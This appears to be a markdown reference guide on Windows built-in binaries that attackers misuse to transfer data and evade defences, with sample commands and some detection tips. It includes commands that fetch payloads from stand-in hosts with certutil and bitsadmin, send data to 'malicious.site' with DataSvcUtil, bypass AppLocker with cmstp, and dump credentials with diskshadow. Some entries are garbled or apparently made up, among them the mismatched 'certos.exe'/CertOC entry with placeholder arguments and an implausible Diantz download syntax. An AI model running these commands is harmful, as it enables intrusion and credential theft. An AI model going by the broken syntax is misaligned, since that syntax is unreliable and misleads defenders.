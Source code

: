 # Data Transfer Techniques
## cmd.exe
One of the techniques employed by adversaries is leveraging Alternate Data Streams (ADS) to hide malicious payloads. Additionally, `cmd.exe` can be used to **download or upload files**, facilitating data ingress or egress.
```cmd
#Creating an Alternate Data Stream:
echo This is hidden data > legitfile.txt:hidden.txt

#Executing a PowerShell command using cmd.exe:
cmd.exe /c "powershell -Command "& {Write-Output 'Hello from PowerShell'}""
```
> **Tips and Tricks:** Always monitor `cmd.exe` for unusual or unexpected command-line arguments. Consider using Sysmon to log commandline executions.

## powershell.exe (Encoding & Execution)
Malicious actors often use **PowerShell's** `-EncodedCommand` parameter to execute Base64 encoded commands, making detection and analysis more challenging.
```powershell
#Executing an Encoded PowerShell Command:
$command = "Write-Output 'Malicious Activity'"
$encodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command))

powershell.exe -EncodedCommand $encodedCommand
```
> **Tips and Tricks:** Enable PowerShell logging to capture and analyze all executed scripts. Consider using tools like Revoke-Obfuscation to detect obfuscated PowerShell scripts.

## certutil.exe (Data Transfer and Encoding)
Certutil.exe is a command-line program used to manage certificates in Windows. However, its ability to download files and encode/decode data has made it a popular tool for attackers. They can misuse certutil.exe to fetch malicious payloads from remote servers or to obfuscate data to evade detection.

```cmd
#Downloading a File with Certutil:
certutil.exe -urlcache -split -f "http://malicious.site/payload.exe" payload.exe

#Decoding a Base64 Encoded File:
certutil.exe -decode encodedfile.txt decodedfile.exe
```

> **Tips and Tricks:** Monitor `certutil.exe` for any network connections or unusual file operations. If there's no legitimate use for **certutil.exe** in your environment, consider blocking or restricting its execution.


## bash.exe (Indirect Command Execution)
By invoking Bash.exe with specific parameters or scripts, malicious actors can run commands that might otherwise be flagged or blocked if executed directly.

**CMD**
```bash
bash.exe -c "your_linux_command_here"
```
**Powershell**
```powershell
Start-Process -NoNewWindow "bash.exe" -ArgumentList "-c your_linux_command_here"
```

## bitsadmin.exe (File Transfer)
Bitsadmin.exe is a command-line tool that provides the ability to create and monitor BITS (Background Intelligent Transfer Service) jobs. While its legitimate use is for transferring files between machines, attackers can misuse it to download, upload, or even execute malicious files. Its ability to perform these tasks in the background can make detection more challenging.

**CMD**
```cmd
bitsadmin.exe /transfer job_name /download /priority normal http://malicious_url/malicious_file C:\path\to\save\malicious_file
```

**Powershell**
```powershell
Start-Process -NoNewWindow "bitsadmin.exe" -ArgumentList "/transfer job_name /download /priority normal http://malicious_url/malicious_file C:\path\to\save\malicious_file"
```

## certos.exe (File Transfer)
CertOC.exe is a legitimate binary related to certificate operations in Windows. However, its functionalities can be misused by attackers to download or execute malicious files. By invoking CertOC.exe with specific arguments, an attacker can transfer files from a remote location to the local machine, potentially bypassing certain security controls.

**CMD**
```cmd
CertOC.exe -parameter:[specific_parameters_for_transfer]
```

**Powershell**
```powershell
Start-Process -NoNewWindow "CertOC.exe" -ArgumentList "-parameter:[specific_parameters_for_transfer]"
```


## diantz.exe (NTFS Attributes Manipulation and File Transfer)
Diantz.exe is a legitimate Windows binary associated with archive functionalities. Attackers can exploit it to manipulate NTFS file attributes, which can be used to hide malicious activities or files. Additionally, it can be used to download malicious payloads from remote servers.

**CMD**
```cmd
Diantz.exe /option:C:\path\to\input http://malicious.site/payload
```

**Powershell**
```powershell
Invoke-Expression "Diantz.exe /option:C:\path\to\input http://malicious.site/payload"
```

## cmstp.exe (Application Whitelist Bypass)
Cmstp.exe is a Microsoft binary used for the installation of Connection Manager service profiles. Attackers have discovered that it can be abused to execute malicious scripts and bypass application whitelisting solutions, such as AppLocker, by invoking the installation of a malicious .inf file.

**CMD**
```cmd
cmstp.exe /s /ns C:\path\to\malicious.inf
```

**Powershell**
```powershell
Invoke-Expression "cmstp.exe /s /ns C:\path\to\malicious.inf"
```

## control.exe (Malicious Activities)
Control.exe is the main executable for the Windows Control Panel. Attackers can misuse it by invoking specific Control Panel items (.cpl files) that have been tampered with or replaced by malicious versions. This can lead to a range of malicious activities, from information theft to system compromise.

**CMD**
```cmd
control.exe C:\path\to\malicious.cpl
```

**Powershell**
```powershell
Invoke-Expression "control.exe C:\path\to\malicious.cpl"
```

## cscript (Script Execution and Data Stream Manipulation)
Cscript.exe is a command-line version of the Windows Script Host that allows users to run scripts by typing the script file name at the command prompt. While it's designed for legitimate scripting tasks, it can be used by attackers to execute malicious scripts or manipulate alternate data streams.

**CMD**
```cmd
cscript.exe C:\path\to\script.vbs
```

**Powershell**
```powershell
Invoke-Expression "cscript.exe C:\path\to\script.vbs"
```

## DataSvcUtil.exe (Exfiltration Over Web Service)
DataSvcUtil.exe is a tool used for generating data service classes. Malicious actors can misuse this tool to exfiltrate data by sending it to a web service. Monitoring network traffic and the behavior of this binary can help in identifying suspicious activities.

**CMD**
```cmd
DataSvcUtil.exe /out:C:\path\to\output /uri:http://malicious.site
```

**Powershell**
```powershell
Invoke-Expression "DataSvcUtil.exe /out:C:\path\to\output /uri:http://malicious.site"
```

## Diskshadow.exe (NTDS Dumping and Indirect Command Execution)
`Diskshadow.exe` is a Windows utility for disk shadow copies. Malicious actors can misuse it to dump the NTDS.dit file, which contains Active Directory data, including user credentials. Additionally, it can be used for indirect command execution, allowing attackers to run commands under the context of another process.

**CMD**
```cmd
Diskshadow.exe -s C:\path\to\script.txt
```

**Powershell**
```powershell
Invoke-Expression "Diskshadow.exe -s C:\path\to\script.txt"
```

































